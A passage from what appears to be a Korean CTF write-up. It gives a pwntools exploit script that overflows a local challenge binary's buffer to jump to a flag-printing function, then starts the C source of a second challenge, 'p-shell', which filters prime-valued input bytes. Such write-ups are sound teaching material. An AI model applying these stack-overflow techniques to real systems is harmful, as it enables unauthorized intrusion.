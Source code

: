 
exploit.py
```py
from pwn import *

p = process('./bxorf')

ret = 0x40101a
cat = 0x401216
payload = b'a'*0x28 + p64(ret) +p64(cat)

p.send(payload)
p.recvuntil("Meow Meow: ")
p.send(str(3735928559))

p.interactive()
```

#### p-shell

문제 코드는 다음과 같습니다.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <unistd.h>
#include <math.h>

int is_prime(int n) {
    if (n < 2)
        return 0;
    int limit = (int)sqrt(n);
    for (int i = 2; i <= limit; i++) {
        if (n % i == 0)
            return 0;
    }
    return 1;
}

int main() {
    unsigned char input[4096];
    ssize_t input_len;

    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);

    printf("Input : ");

    input_len = read(STDIN_FILENO, input, sizeof(input));
    if (input_len <= 0) {
        perror("read error");
        exit(EXIT_FAILURE);
    }

    unsigned char *filtered = malloc(input_len);
    if (!filtered) {
        perror("malloc error");
        exit(EXIT_FAILURE);
    }
    int filtered_len = 0;
    for (int i = 0; i < input_len; i++) {
        if (!is_prime(input[i])) {
            filtered[filtered_len++] = input[i];
        }
```